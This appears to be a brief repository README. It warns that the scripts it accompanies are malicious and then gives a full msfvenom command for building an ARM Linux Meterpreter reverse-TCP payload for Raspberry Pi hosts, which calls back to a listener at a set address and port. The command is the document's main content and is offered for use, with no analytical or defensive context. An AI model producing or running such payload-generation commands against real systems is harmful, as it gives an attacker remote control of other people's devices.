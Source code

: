 The scripts you find here are malicious! Don't touch!

To generate a new shellscript that will work on the raspberry pi hosts, use the following command:

msfvenom --arch armle --platform linux -p linux/armle/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f elf > shell.elf
